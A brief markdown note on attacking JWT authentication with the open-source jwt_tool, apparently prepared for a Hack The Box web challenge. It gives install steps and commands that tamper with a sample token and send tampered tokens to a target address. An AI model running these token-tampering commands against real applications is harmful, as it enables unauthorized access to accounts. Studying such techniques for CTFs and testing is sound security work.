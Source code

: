 # JWT Toolkit: Attacking JWT Tokens

1. Download [JSON Web Token Toolkit](
https://github.com/ticarpi/jwt_tool.git)
2. Install required libraries

        pip3 install pycryptodomex

3. Tamper an existing JWT token by passing `-T` option

        python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw -T

4. Send tampered tokens directly to a target application

        python jwt_tool.py -t http://165.232.35.118:30532/ -rc "session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw" -cv "Welcome" -M er

## References

* https://ncu204.com/post/hack_the_box/under-construction/
* https://www.tariqhawis.com/htb-under-construction-web-challange/
* https://github.com/ticarpi/jwt_tool/wiki
* https://www.pingidentity.com/en/company/blog/posts/2019/jwt-security-nobody-talks-about.html
